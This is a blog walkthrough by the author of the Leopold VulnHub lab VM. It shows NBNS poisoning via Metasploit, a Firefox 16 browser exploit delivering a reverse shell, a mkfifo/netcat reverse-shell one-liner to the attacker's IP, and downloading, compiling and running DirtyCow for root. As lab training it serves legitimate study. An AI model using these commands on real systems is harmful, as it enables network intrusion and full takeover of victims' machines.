 ```yaml
---
layout: post
title: Walkthrough of Leopold
published: true
categories: [vm]
tags: [vulnhub,sp,leopold]
fullview: false
description: A walkthrough of the leopold VM on VulnHub
comments: true
---
```


# Intro

Leopold was the second machine I created for my <a href="https://www.vulnhub.com/series/sp,189/">SP series</a> in late 2018, and I think it's the most popular of my machines. There are many walkthroughs out there for Leopold, but I wanted to show how I intended to solve it, but I have also made the walkthrough from an objective standpoint. Leopold is very different from any other VM that I have seen on VulnHub due to it's client-side aspect and will teach a real-world attack vector commonly used in penetration tests. Lastly, I would personally view this VM as easy in difficulty, but I have seen people complain about this. However, I think this is due to the unfamiliarity with this kind of exploitation.

## Enumeration

After finding the server on the network, we do a port scan to determine the services running:

```bash
$ nmap -sTV 192.168.0.31 -n -p-
---
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
---
```

The smb service doesn't yield anything useful, other than that it's a Linux machine, due to the Samba implementation of SMB. Where do we go from here? Let's fire up Wireshark to see if we can learn anything from there.

After some minutes we can see that there is a NBNS request for DISNEYWORLD made from leopold:

```bash
192.168.0.31 192.168.0.255 NBNS 92 Name query NB DISNEYWORLD<00>
```

## Setting up Man-in-the-middle

Netbios Name Service (NBNS) is like DNS, but simpler and decentralized. Instead of asking a server for hostname resolution, it sends out a broadcast asking the whole network if they know which IP-address a hostname resolves to. It is usually used together with LLMNR and mDNS as backup if a DNS request would fail. These protocols trusts the answers blindly, which makes them optimal for poisoning attacks to reroute the communication through our attacking machine.

There are multiple tools we can use for this, but we will stick to a Metasploit module which was made exactly for this.

Open Metasploit and use the auxiliary/spoof/nbns/nbns_response module. Set REGXP to "disneyworld" and SPOOFIP to your own attacking IP address. Keep Wireshark before writing "run" and hitting enter to start the module.

```bash
msf5 auxiliary(spoof/nbns/nbns_response) > options 

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      disneyworld      yes       Regex applied to the NB Name to determine if spoofed reply is sent
   SPOOFIP    192.168.0.32     yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Run NBNS spoofing service


msf5 auxiliary(spoof/nbns/nbns_response) > run
[*] Auxiliary module running as background job 0.

[*] NBNS Spoofer started. Listening for NBNS requests with REGEX "disneyworld" ...
msf5 auxiliary(spoof/nbns/nbns_response) > 
```

Soon we will see the following output in Metasploit, meaning that leopold now thinks that the DISNEYWORLD hostname is resolving to our attacking computer.

```bash
[+] 192.168.0.31     nbns - DISNEYWORLD matches regex, responding with 192.168.0.32
```

We will also soon after see some TCP requests to port 80 from leopold to our attacking machine in Wireshark. However, we don't have anything running on port 80. We can fire up a netcat listener to see the request.

```bash
root@kali:~# nc -nlvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.0.31.
Ncat: Connection from 192.168.0.31:51910.
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

Here we have the request leopold is making. There is two key pieces of information we can gather from this, namely the user-agent string and the endpoint he is trying to reach, which is the root directory. After a quick web search on the user-agent string, we learn that leopold is using Firefox 16.

## Initial Access

Searching for "firefox" in searchsploit gives many possible alternatives and after some research, the "toString console.time Privileged JavaScript Injection" exploit seems to be a match for the Firefox version in question and there is even a Metasploit module for it. The module sets up a webserver on the attacking machine to serve the browser exploit to visitors. Let's change the SRVPORT to 80, which was the port leopold was trying to reach, and URIPATH to "/", before running it.

```bash
msf5 exploit(multi/browser/firefox_tostring_console_injection) > options 

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.32     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
```

After some minutes we get a shell:

```bash
[*] 192.168.0.31     firefox_tostring_console_injection - Sending HTML response to 192.168.0.31
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.0.32:4444 -> 192.168.0.31:36555) at 2020-09-15 17:15:05 -0400
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)
```

The shell is not stable and dies after some mintues. To fix this, we can create a new shell. Open a new netcat listener on port 3333 on the attacking machine and write the code below in the current shell. Remember to change the attacking IP address.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.32 3333 >/tmp/f
```


## Priv Esc

Due to the old Linux kernel version, we can try the goto DirtyCow exploit. Simply download, rename and host the source code on the attacking machine:

```bash
root@kali:~# wget https://www.exploit-db.com/download/40839
root@kali:~# mv 40839 40839.c
root@kali:~# python3 -m http.server 8080
```

Download, compile and run the exploit on the target host, from the remote leopold shell:

```bash
$ wget http://192.168.0.32
$ gcc 40839.c -o cow -pthread -lcrypt
$ ./cow
```

Enter a password for the firefart root user and wait for the exploit to finish, before switching to the firefart user:

```bash
$ su firefart
$ id
$ uid=0(firefart) gid=0(root) groups=0(root)
```

## Summary

Leopold is a workstation and a user trying to browse the Internet. What is most likely a typo in the address bar of the web browser, results in DNS failing and the computer resorts to alternative name resolution systems, which are open for man-in-the-middle attacks. From here we poisoned the name resolution request and redirected Leopold's traffic to our attacking computer which served a browser exploit, gaining us remote access to Leopold's computer. Using a well known kernel exploit, we managed to gain administrative rights to his computer.  
  
This attack vector is being actively used in real world penetration tests, with tools such as Responder, that works with a lot of different protocols and sets up various fake services, such as SMB to steal domain credentials and hashes.
